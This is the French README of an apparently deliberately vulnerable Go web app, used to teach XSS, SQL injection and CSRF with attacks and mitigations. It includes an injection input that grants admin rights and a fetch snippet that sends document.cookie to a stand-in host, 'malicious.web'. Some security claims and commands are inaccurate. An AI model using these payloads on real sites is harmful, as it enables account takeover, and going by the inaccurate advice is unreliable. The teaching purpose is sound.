

# pwn
C'est un petit projet fait en Go bien sympa mais pleins de failles :)



# Quickstart

### Dependencies
```bash

docker
// or go >=1.16
```

### Startup
```bash
# Docker
docker-compose up 
// docker compose up

// OR
# Go
go mod download
go build -o ./main.go
./main.go
```

### Users
```
# Admin
username  jane
username  password

# User
Petra:
username  petra
password  password
```

# Cross-Site Scripting (XSS)
Le XSS  est un type de faille de sécurité de sites internet. Le but est simplement de pouvoir attaquer une système à l'aide de scripts (JavaScript par exemple).

Dans notre cas, Go est plutôt bien armé pour éviter l'injection de scripts.

```go
// Safe
userId := url.Query().Get("uid")
```

Cette méthode permet de récupérer la valeur d'un paramètre d'une requête de façon sécurisé. Les `;` ou autres caractères sont échappés automatiquement.

La méthode `url.QueryUnescape()` permet de récupérer tous les paramètres de l'URL sans échappement.

## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/routes.go#L85-L93))

Dans l'application, un script peut être exécuté grace à ce code.
L'exécution de scripts comme `http://foo.bar/baz?id=<script>fetch(...)</script>` est alors possible.

## Mitigations

Comme précisé ci-dessus, une attaque XSS est motigé a l'aide de plusieurs méthodes du package `url`.
```go
foo := url.FormData("foo")
bar := url.Query().Get("foo")
// ...
```
Ces méthodes échappent la majorité des caractères et de plus les strings sont encodés au format URL. L'exécution de script est impossible dans ce cas-là.

Il faudrait préférer l'envoi de formulaire avec une méthode `POST` et récupérer les champs avec le body envoyé par la requête.
De plus, il faudrait assainir les paramètres URL et les inputs pour en éviter l'injection de scripts malicieux et de les exécuter.

# SQL Injection (SQLI)

L'injection SQL un type d’attaque discrète dans laquelle le pirate insère son propre code dans un site web afin de contourner ses mesures de sécurité et d’accéder à des données protégées.

Elle peut se faire de plusieurs manières :
- De la même manière de pour XSS, les `query params`
- En modifiant `value` des inputs en HTML
- En modifiant le `body` d'une requête
  

## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/repository.go#L111-L112))

Il est possible de réaliser une injection SQL à partir des divers `<input />` utilisés pour interagir avec les différentes routes.      

Dans notre application, le package standard `sql` de Go avec le driver `sqlite` ne permet
pas d'exécuter deux requêtes en simultanés. Cela ne change pas le fait l'injection SQL est possible et que les envois de requêtes SQL malicieuses sont envoyés à la base de données.  

Par exemple:
```html
<input value="2';UPDATE users SET is_admin = true WHERE id = '...';" hidden>
```

## Migitations

Il faut assainir les inputs comme pour éviter le XSS.
Cependant, cela ne suffit pas totalement. Il faut aussi éviter l'exécution de scripts malicieux.
Il est possible en SQL de preparer les requetes et de les verifier avant de les exécuter.
Cela permet de conserver l'intégrité des données si une requete malicieuse s'infiltre.


# Cross-Site Request Forgery (CSRF)
C'est un type d'attaque qui se produit quand un site Web, un blog, un e-mail, un message instantané ou une application Web malveillant(e) oblige le navigateur Web d'un utilisateur à effectuer des opérations indésirables, sur un site de confiance où l'utilisateur est actuellement authentifié.

Notre application est protégée avec :
- un token `x-csrf` stocké dans un cookie.
- l'identifiant de l'utilisateur stocké dans un cookie.


Un token csrf est :
- Générer à chaque requête
- Stocké en mémoire et envoyé en cookie à chaque requête
- Vérifié à chaque requête


## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/middleware.go#L19-L24))

Même si notre système de token csrf fonctionnne, il reste assez rudimentaire.

Notre cookie est accessible avec du JavaScrit (XSS)
```javascript
// http://foo.bar/baz?=<script>script</script>
console.log(
    fetch("http://malicious.web", {
        method: "POST,
        body: JSON.stringify({cookies: document.cookie}),
        headers : {"Content-Type": "application/json" },
    });
);
```

Par exemple, en utilisant du XSS, un lien malicieux pourrait être envoyé à un administrateur et permettrait de récupérer son cookie x-csrf et de faire une requête en son nom (avec son uid en cookie) 

## Mitigations
Un système de cookie est possible dans une application destinée à la production. Cependant il faut faire attention aux informations stockées car les cookies sont envoyés à chaque requête. Afin de sécuriser le cookie, les paramètres doivent être ajouté:
- `httpOnly` pour ne pas pouvoir interagir avec le cookie sur le frontend
- `MaxAge` pour expirer le cookie

```go
c := &http.Cookie{
		Name:     "x-csrf",
		Value:    randomString,
		Path:     "/",
		HttpOnly: true,
        MaxAge:   3000
	}
```